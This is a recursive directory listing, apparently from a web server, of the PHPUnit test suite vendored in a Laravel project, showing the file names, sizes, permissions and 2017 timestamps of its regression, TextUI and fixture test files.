-rw-r--r--  1 www-data www-data  165 Apr  3  2017 Issue1437Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1468:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  197 Apr  3  2017 Issue1468Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1471:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  206 Apr  3  2017 Issue1471Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1472:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  814 Apr  3  2017 Issue1472Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/1570:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  126 Apr  3  2017 Issue1570Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2137:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  676 Apr  3  2017 Issue2137Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2145:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  238 Apr  3  2017 Issue2145Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2158:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  547 Apr  3  2017 Issue2158Test.php
-rw-r--r--  1 www-data www-data   42 Apr  3  2017 constant.inc

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2299:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  391 Apr  3  2017 Issue2299Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2366:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  458 Apr  3  2017 Issue2366Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2380:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  347 Apr  3  2017 Issue2380Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2382:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  408 Apr  3  2017 Issue2382Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/2435:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  159 Apr  3  2017 Issue2435Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/244:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 Issue244Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/322:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  217 Apr  3  2017 Issue322Test.php
-rw-r--r--  1 www-data www-data  175 Apr  3  2017 phpunit322.xml

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/433:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  446 Apr  3  2017 Issue433Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/445:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  446 Apr  3  2017 Issue445Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/498:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  814 Apr  3  2017 Issue498Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/503:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  211 Apr  3  2017 Issue503Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/581:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  298 Apr  3  2017 Issue581Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/74:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  247 Apr  3  2017 Issue74Test.php
-rw-r--r--  1 www-data www-data   47 Apr  3  2017 NewException.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/765:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  394 Apr  3  2017 Issue765Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/797:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  229 Apr  3  2017 Issue797Test.php
-rw-r--r--  1 www-data www-data  192 Apr  3  2017 bootstrap797.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/GitHub/873:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 35 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  175 Apr  3  2017 Issue873Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/Trac:
total 48K
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 1021
-rw-r--r-- 1 www-data www-data  505 Apr  3  2017 1021.phpt
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 523
-rw-r--r-- 1 www-data www-data  513 Apr  3  2017 523.phpt
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 578
-rw-r--r-- 1 www-data www-data  876 Apr  3  2017 578.phpt
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 684
-rw-r--r-- 1 www-data www-data  599 Apr  3  2017 684.phpt
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 783
-rw-r--r-- 1 www-data www-data  562 Apr  3  2017 783.phpt

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/Trac/1021:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  366 Apr  3  2017 Issue1021Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/Trac/523:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  261 Apr  3  2017 Issue523Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/Trac/578:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  573 Apr  3  2017 Issue578Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/Trac/684:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data   72 Apr  3  2017 Issue684Test.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Regression/Trac/783:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  296 Apr  3  2017 ChildSuite.php
-rw-r--r-- 1 www-data www-data  129 Apr  3  2017 OneTest.php
-rw-r--r-- 1 www-data www-data  237 Apr  3  2017 ParentSuite.php
-rw-r--r-- 1 www-data www-data  129 Apr  3  2017 TwoTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Runner:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  432 Apr  3  2017 BaseTestRunnerTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/TextUI:
total 388K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 _files
-rw-r--r--  1 www-data www-data  580 Apr  3  2017 abstract-test-class.phpt
-rw-r--r--  1 www-data www-data  938 Apr  3  2017 assertion.phpt
-rw-r--r--  1 www-data www-data 1006 Apr  3  2017 code-coverage-ignore.phpt
-rw-r--r--  1 www-data www-data  526 Apr  3  2017 colors-always.phpt
-rw-r--r--  1 www-data www-data  484 Apr  3  2017 concrete-test-class.phpt
-rw-r--r--  1 www-data www-data  843 Apr  3  2017 custom-printer-debug.phpt
-rw-r--r--  1 www-data www-data  858 Apr  3  2017 custom-printer-verbose.phpt
-rw-r--r--  1 www-data www-data 1.4K Apr  3  2017 dataprovider-debug.phpt
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 dataprovider-log-xml-isolation.phpt
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 dataprovider-log-xml.phpt
-rw-r--r--  1 www-data www-data  578 Apr  3  2017 dataprovider-testdox.phpt
-rw-r--r--  1 www-data www-data  734 Apr  3  2017 debug.phpt
-rw-r--r--  1 www-data www-data  561 Apr  3  2017 default-isolation.phpt
-rw-r--r--  1 www-data www-data  496 Apr  3  2017 default.phpt
-rw-r--r--  1 www-data www-data  581 Apr  3  2017 dependencies-clone.phpt
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 dependencies-isolation.phpt
-rw-r--r--  1 www-data www-data 1003 Apr  3  2017 dependencies.phpt
-rw-r--r--  1 www-data www-data  537 Apr  3  2017 dependencies2-isolation.phpt
-rw-r--r--  1 www-data www-data  472 Apr  3  2017 dependencies2.phpt
-rw-r--r--  1 www-data www-data  577 Apr  3  2017 dependencies3-isolation.phpt
-rw-r--r--  1 www-data www-data  515 Apr  3  2017 dependencies3.phpt
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 disable-code-coverage-ignore.phpt
-rw-r--r--  1 www-data www-data  607 Apr  3  2017 empty-testcase.phpt
-rw-r--r--  1 www-data www-data 1.1K Apr  3  2017 exception-stack.phpt
-rw-r--r--  1 www-data www-data  689 Apr  3  2017 exclude-group-isolation.phpt
-rw-r--r--  1 www-data www-data  624 Apr  3  2017 exclude-group.phpt
-rw-r--r--  1 www-data www-data 2.4K Apr  3  2017 failure-isolation.phpt
-rw-r--r--  1 www-data www-data 2.4K Apr  3  2017 failure-reverse-list.phpt
-rw-r--r--  1 www-data www-data 2.3K Apr  3  2017 failure.phpt
-rw-r--r--  1 www-data www-data  607 Apr  3  2017 fatal-isolation.phpt
-rw-r--r--  1 www-data www-data  661 Apr  3  2017 filter-class-isolation.phpt
-rw-r--r--  1 www-data www-data  596 Apr  3  2017 filter-class.phpt
-rw-r--r--  1 www-data www-data  711 Apr  3  2017 filter-dataprovider-by-classname-and-range-isolation.phpt
-rw-r--r--  1 www-data www-data  646 Apr  3  2017 filter-dataprovider-by-classname-and-range.phpt
-rw-r--r--  1 www-data www-data  677 Apr  3  2017 filter-dataprovider-by-number-isolation.phpt
-rw-r--r--  1 www-data www-data  612 Apr  3  2017 filter-dataprovider-by-number.phpt
-rw-r--r--  1 www-data www-data  668 Apr  3  2017 filter-dataprovider-by-only-range-isolation.phpt
-rw-r--r--  1 www-data www-data  603 Apr  3  2017 filter-dataprovider-by-only-range.phpt
-rw-r--r--  1 www-data www-data  675 Apr  3  2017 filter-dataprovider-by-only-regexp-isolation.phpt
-rw-r--r--  1 www-data www-data  610 Apr  3  2017 filter-dataprovider-by-only-regexp.phpt
-rw-r--r--  1 www-data www-data  680 Apr  3  2017 filter-dataprovider-by-only-string-isolation.phpt
-rw-r--r--  1 www-data www-data  615 Apr  3  2017 filter-dataprovider-by-only-string.phpt
-rw-r--r--  1 www-data www-data  683 Apr  3  2017 filter-dataprovider-by-range-isolation.phpt
-rw-r--r--  1 www-data www-data  618 Apr  3  2017 filter-dataprovider-by-range.phpt
-rw-r--r--  1 www-data www-data  693 Apr  3  2017 filter-dataprovider-by-regexp-isolation.phpt
-rw-r--r--  1 www-data www-data  628 Apr  3  2017 filter-dataprovider-by-regexp.phpt
-rw-r--r--  1 www-data www-data  698 Apr  3  2017 filter-dataprovider-by-string-isolation.phpt
-rw-r--r--  1 www-data www-data  633 Apr  3  2017 filter-dataprovider-by-string.phpt
-rw-r--r--  1 www-data www-data  614 Apr  3  2017 filter-method-case-insensitive.phpt
-rw-r--r--  1 www-data www-data  524 Apr  3  2017 filter-method-case-sensitive-no-result.phpt
-rw-r--r--  1 www-data www-data  681 Apr  3  2017 filter-method-isolation.phpt
-rw-r--r--  1 www-data www-data  616 Apr  3  2017 filter-method.phpt
-rw-r--r--  1 www-data www-data  502 Apr  3  2017 filter-no-results.phpt
-rw-r--r--  1 www-data www-data  496 Apr  3  2017 forward-compatibility.phpt
-rw-r--r--  1 www-data www-data  671 Apr  3  2017 group-isolation.phpt
-rw-r--r--  1 www-data www-data  606 Apr  3  2017 group.phpt
-rw-r--r--  1 www-data www-data 4.9K Apr  3  2017 help.phpt
-rw-r--r--  1 www-data www-data 4.9K Apr  3  2017 help2.phpt
-rw-r--r--  1 www-data www-data  655 Apr  3  2017 ini-isolation.phpt
-rw-r--r--  1 www-data www-data  517 Apr  3  2017 list-groups.phpt
-rw-r--r--  1 www-data www-data  444 Apr  3  2017 list-suites.phpt
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 log-json-post-66021.phpt
-rw-r--r--  1 www-data www-data 1.9K Apr  3  2017 log-junit.phpt
-rw-r--r--  1 www-data www-data  826 Apr  3  2017 log-tap.phpt
-rw-r--r--  1 www-data www-data 1.7K Apr  3  2017 log-teamcity.phpt
-rw-r--r--  1 www-data www-data  641 Apr  3  2017 mycommand.phpt
-rw-r--r--  1 www-data www-data  519 Apr  3  2017 options-after-arguments.phpt
-rw-r--r--  1 www-data www-data  638 Apr  3  2017 output-isolation.phpt
-rw-r--r--  1 www-data www-data  401 Apr  3  2017 phar-extension-suppressed.phpt
-rw-r--r--  1 www-data www-data  637 Apr  3  2017 phar-extension.phpt
-rw-r--r--  1 www-data www-data  149 Apr  3  2017 phpt-args.phpt
-rw-r--r--  1 www-data www-data  195 Apr  3  2017 phpt-env.phpt
-rw-r--r--  1 www-data www-data  151 Apr  3  2017 phpt-external.phpt
-rw-r--r--  1 www-data www-data  245 Apr  3  2017 phpt-stderr.phpt
-rw-r--r--  1 www-data www-data  163 Apr  3  2017 phpt-stdin.phpt
-rw-r--r--  1 www-data www-data  489 Apr  3  2017 phpt-xfail.phpt
-rw-r--r--  1 www-data www-data  568 Apr  3  2017 repeat.phpt
-rw-r--r--  1 www-data www-data  621 Apr  3  2017 report-useless-tests-incomplete.phpt
-rw-r--r--  1 www-data www-data  675 Apr  3  2017 report-useless-tests-isolation.phpt
-rw-r--r--  1 www-data www-data  753 Apr  3  2017 report-useless-tests.phpt
-rw-r--r--  1 www-data www-data  604 Apr  3  2017 stop-on-warning-via-cli.phpt
-rw-r--r--  1 www-data www-data  715 Apr  3  2017 stop-on-warning-via-config.phpt
-rw-r--r--  1 www-data www-data  534 Apr  3  2017 tap.phpt
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 teamcity.phpt
-rw-r--r--  1 www-data www-data  515 Apr  3  2017 test-suffix-multiple.phpt
-rw-r--r--  1 www-data www-data  499 Apr  3  2017 test-suffix-single.phpt
-rw-r--r--  1 www-data www-data  731 Apr  3  2017 testdox-exclude-group.phpt
-rw-r--r--  1 www-data www-data  715 Apr  3  2017 testdox-group.phpt
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 testdox-html.phpt
-rw-r--r--  1 www-data www-data  682 Apr  3  2017 testdox-text.phpt
-rw-r--r--  1 www-data www-data 2.3K Apr  3  2017 testdox-xml.phpt
-rw-r--r--  1 www-data www-data  503 Apr  3  2017 testdox.phpt

/var/www/laravel/vendor/phpunit/phpunit/tests/TextUI/_files:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data   11 Apr  3  2017 expect_external.txt
-rw-r--r-- 1 www-data www-data   16 Apr  3  2017 phpt-env.expected.txt
-rw-r--r-- 1 www-data www-data   26 Apr  3  2017 phpt_external.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Util:
total 84K
drwxr-xr-x  3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  16K Apr  3  2017 ConfigurationTest.php
-rw-r--r--  1 www-data www-data 1.3K Apr  3  2017 GetoptTest.php
-rw-r--r--  1 www-data www-data 1019 Apr  3  2017 GlobalStateTest.php
-rw-r--r--  1 www-data www-data 4.2K Apr  3  2017 PHPTest.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 RegexTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 TestDox
-rw-r--r--  1 www-data www-data  30K Apr  3  2017 TestTest.php
-rw-r--r--  1 www-data www-data 2.3K Apr  3  2017 XMLTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/Util/TestDox:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 2.8K Apr  3  2017 NamePrettifierTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/_files:
total 628K
drwxr-xr-x  5 www-data www-data  12K Apr  3  2017 .
drwxr-xr-x 10 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r--  1 www-data www-data  115 Apr  3  2017 AbstractTest.php
-rw-r--r--  1 www-data www-data  778 Apr  3  2017 ArrayAccessible.php
-rw-r--r--  1 www-data www-data  102 Apr  3  2017 AssertionExample.php
-rw-r--r--  1 www-data www-data  177 Apr  3  2017 AssertionExampleTest.php
-rw-r--r--  1 www-data www-data  468 Apr  3  2017 Author.php
-rw-r--r--  1 www-data www-data 1.6K Apr  3  2017 BankAccount.php
-rw-r--r--  1 www-data www-data 2.2K Apr  3  2017 BankAccountTest.php
-rw-r--r--  1 www-data www-data 2.0K Apr  3  2017 BankAccountTest.test.php
-rw-r--r--  1 www-data www-data 1.2K Apr  3  2017 BankAccountTest2.php
-rw-r--r--  1 www-data www-data  214 Apr  3  2017 BaseTestListenerSample.php
-rw-r--r--  1 www-data www-data  559 Apr  3  2017 BeforeAndAfterTest.php
-rw-r--r--  1 www-data www-data  642 Apr  3  2017 BeforeClassAndAfterClassTest.php
-rw-r--r--  1 www-data www-data  833 Apr  3  2017 BeforeClassWithOnlyDataProviderTest.php
-rw-r--r--  1 www-data www-data  360 Apr  3  2017 Book.php
-rw-r--r--  1 www-data www-data  219 Apr  3  2017 Calculator.php
-rw-r--r--  1 www-data www-data  205 Apr  3  2017 ChangeCurrentWorkingDirectoryTest.php
-rw-r--r--  1 www-data www-data  959 Apr  3  2017 ClassWithNonPublicAttributes.php
-rw-r--r--  1 www-data www-data  110 Apr  3  2017 ClassWithScalarTypeDeclarations.php
-rw-r--r--  1 www-data www-data  392 Apr  3  2017 ClassWithToString.php
-rw-r--r--  1 www-data www-data  760 Apr  3  2017 ClonedDependencyTest.php
-rw-r--r--  1 www-data www-data  113 Apr  3  2017 ConcreteTest.my.php
-rw-r--r--  1 www-data www-data   92 Apr  3  2017 ConcreteTest.php
-rw-r--r--  1 www-data www-data  238 Apr  3  2017 CoverageClassExtendedTest.php
-rw-r--r--  1 www-data www-data  220 Apr  3  2017 CoverageClassTest.php
-rw-r--r--  1 www-data www-data  207 Apr  3  2017 CoverageFunctionParenthesesTest.php
-rw-r--r--  1 www-data www-data  219 Apr  3  2017 CoverageFunctionParenthesesWhitespaceTest.php
-rw-r--r--  1 www-data www-data  194 Apr  3  2017 CoverageFunctionTest.php
-rw-r--r--  1 www-data www-data  241 Apr  3  2017 CoverageMethodOneLineAnnotationTest.php
-rw-r--r--  1 www-data www-data  248 Apr  3  2017 CoverageMethodParenthesesTest.php
-rw-r--r--  1 www-data www-data  260 Apr  3  2017 CoverageMethodParenthesesWhitespaceTest.php
-rw-r--r--  1 www-data www-data  235 Apr  3  2017 CoverageMethodTest.php
-rw-r--r--  1 www-data www-data  187 Apr  3  2017 CoverageNamespacedFunctionTest.php
-rw-r--r--  1 www-data www-data  175 Apr  3  2017 CoverageNoneTest.php
-rw-r--r--  1 www-data www-data  237 Apr  3  2017 CoverageNotPrivateTest.php
-rw-r--r--  1 www-data www-data  241 Apr  3  2017 CoverageNotProtectedTest.php
-rw-r--r--  1 www-data www-data  235 Apr  3  2017 CoverageNotPublicTest.php
-rw-r--r--  1 www-data www-data  258 Apr  3  2017 CoverageNothingTest.php
-rw-r--r--  1 www-data www-data  233 Apr  3  2017 CoveragePrivateTest.php
-rw-r--r--  1 www-data www-data  237 Apr  3  2017 CoverageProtectedTest.php
-rw-r--r--  1 www-data www-data  231 Apr  3  2017 CoveragePublicTest.php
-rw-r--r--  1 www-data www-data  330 Apr  3  2017 CoverageTwoDefaultClassAnnotations.php
-rw-r--r--  1 www-data www-data  587 Apr  3  2017 CoveredClass.php
-rw-r--r--  1 www-data www-data   36 Apr  3  2017 CoveredFunction.php
-rw-r--r--  1 www-data www-data   67 Apr  3  2017 CustomPrinter.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 DataProviderDebugTest.php
-rw-r--r--  1 www-data www-data  575 Apr  3  2017 DataProviderDependencyTest.php
-rw-r--r--  1 www-data www-data  753 Apr  3  2017 DataProviderFilterTest.php
-rw-r--r--  1 www-data www-data  694 Apr  3  2017 DataProviderIncompleteTest.php
-rw-r--r--  1 www-data www-data  676 Apr  3  2017 DataProviderSkippedTest.php
-rw-r--r--  1 www-data www-data  382 Apr  3  2017 DataProviderTest.php
-rw-r--r--  1 www-data www-data  429 Apr  3  2017 DataProviderTestDoxTest.php
-rw-r--r--  1 www-data www-data  403 Apr  3  2017 DependencyFailureTest.php
-rw-r--r--  1 www-data www-data  306 Apr  3  2017 DependencySuccessTest.php
-rw-r--r--  1 www-data www-data  289 Apr  3  2017 DependencyTestSuite.php
-rw-r--r--  1 www-data www-data  496 Apr  3  2017 DoubleTestCase.php
-rw-r--r--  1 www-data www-data   50 Apr  3  2017 DummyException.php
-rw-r--r--  1 www-data www-data   69 Apr  3  2017 EmptyTestCaseTest.php
-rw-r--r--  1 www-data www-data  768 Apr  3  2017 ExceptionInAssertPostConditionsTest.php
-rw-r--r--  1 www-data www-data  767 Apr  3  2017 ExceptionInAssertPreConditionsTest.php
-rw-r--r--  1 www-data www-data  753 Apr  3  2017 ExceptionInSetUpTest.php
-rw-r--r--  1 www-data www-data  756 Apr  3  2017 ExceptionInTearDownTest.php
-rw-r--r--  1 www-data www-data  748 Apr  3  2017 ExceptionInTest.php
-rw-r--r--  1 www-data www-data  842 Apr  3  2017 ExceptionNamespaceTest.php
-rw-r--r--  1 www-data www-data  731 Apr  3  2017 ExceptionStackTest.php
-rw-r--r--  1 www-data www-data 2.7K Apr  3  2017 ExceptionTest.php
-rw-r--r--  1 www-data www-data  127 Apr  3  2017 Failure.php
-rw-r--r--  1 www-data www-data 1.8K Apr  3  2017 FailureTest.php
-rw-r--r--  1 www-data www-data  230 Apr  3  2017 FatalTest.php
-rw-r--r--  1 www-data www-data  206 Apr  3  2017 IgnoreCodeCoverageClass.php
-rw-r--r--  1 www-data www-data  367 Apr  3  2017 IgnoreCodeCoverageClassTest.php
-rw-r--r--  1 www-data www-data  169 Apr  3  2017 IncompleteTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 Inheritance
-rw-r--r--  1 www-data www-data   94 Apr  3  2017 InheritedTestCase.php
-rw-r--r--  1 www-data www-data  181 Apr  3  2017 IniTest.php
-rw-r--r--  1 www-data www-data  296 Apr  3  2017 IsolationTest.php
drwxr-xr-x  2 www-data www-data 4.0K Apr  3  2017 JsonData
-rw-r--r--  1 www-data www-data  120 Apr  3  2017 MockRunner.php
-rw-r--r--  1 www-data www-data  385 Apr  3  2017 Mockable.php
-rw-r--r--  1 www-data www-data  395 Apr  3  2017 MultiDependencyTest.php
-rw-r--r--  1 www-data www-data 1.5K Apr  3  2017 MultipleDataProviderTest.php
-rw-r--r--  1 www-data www-data  304 Apr  3  2017 MyCommand.php
-rw-r--r--  1 www-data www-data  255 Apr  3  2017 NamespaceCoverageClassExtendedTest.php
-rw-r--r--  1 www-data www-data  237 Apr  3  2017 NamespaceCoverageClassTest.php
-rw-r--r--  1 www-data www-data  296 Apr  3  2017 NamespaceCoverageCoversClassPublicTest.php
-rw-r--r--  1 www-data www-data  517 Apr  3  2017 NamespaceCoverageCoversClassTest.php
-rw-r--r--  1 www-data www-data  252 Apr  3  2017 NamespaceCoverageMethodTest.php
-rw-r--r--  1 www-data www-data  254 Apr  3  2017 NamespaceCoverageNotPrivateTest.php
-rw-r--r--  1 www-data www-data  258 Apr  3  2017 NamespaceCoverageNotProtectedTest.php
-rw-r--r--  1 www-data www-data  252 Apr  3  2017 NamespaceCoverageNotPublicTest.php
-rw-r--r--  1 www-data www-data  250 Apr  3  2017 NamespaceCoveragePrivateTest.php
-rw-r--r--  1 www-data www-data  254 Apr  3  2017 NamespaceCoverageProtectedTest.php
-rw-r--r--  1 www-data www-data  248 Apr  3  2017 NamespaceCoveragePublicTest.php
-rw-r--r--  1 www-data www-data  603 Apr  3  2017 NamespaceCoveredClass.php
-rw-r--r--  1 www-data www-data   59 Apr  3  2017 NamespaceCoveredFunction.php
-rw-r--r--  1 www-data www-data  115 Apr  3  2017 NoArgTestCaseTest.php
-rw-r--r--  1 www-data www-data   32 Apr  3  2017 NoTestCaseClass.php
-rw-r--r--  1 www-data www-data  108 Apr  3  2017 NoTestCases.php
-rw-r--r--  1 www-data www-data   82 Apr  3  2017 NonStatic.php
-rw-r--r--  1 www-data www-data  384 Apr  3  2017 NotExistingCoveredElementTest.php
-rw-r--r--  1 www-data www-data  166 Apr  3  2017 NotPublicTestCase.php
-rw-r--r--  1 www-data www-data   67 Apr  3  2017 NotVoidTestCase.php
-rw-r--r--  1 www-data www-data  109 Apr  3  2017 NothingTest.php
-rw-r--r--  1 www-data www-data  161 Apr  3  2017 OneTestCase.php
-rw-r--r--  1 www-data www-data  597 Apr  3  2017 OutputTestCase.php
-rw-r--r--  1 www-data www-data  105 Apr  3  2017 OverrideTestCase.php
-rw-r--r--  1 www-data www-data  297 Apr  3  2017 RequirementsClassBeforeClassHookTest.php
-rw-r--r--  1 www-data www-data  418 Apr  3  2017 RequirementsClassDocBlockTest.php
-rw-r--r--  1 www-data www-data 5.6K Apr  3  2017 RequirementsTest.php
-rw-r--r--  1 www-data www-data  920 Apr  3  2017 SampleArrayAccess.php
-rw-r--r--  1 www-data www-data  205 Apr  3  2017 SampleClass.php
-rw-r--r--  1 www-data www-data  364 Apr  3  2017 Singleton.php
-rw-r--r--  1 www-data www-data  514 Apr  3  2017 StackTest.php
-rw-r--r--  1 www-data www-data  603 Apr  3  2017 StatusTest.php
-rw-r--r--  1 www-data www-data  274 Apr  3  2017 StopOnWarningTestSuite.php
-rw-r--r--  1 www-data www-data  112 Apr  3  2017 StopsOnWarningTest.php
-rw-r--r--  1 www-data www-data  118 Apr  3  2017 Struct.php
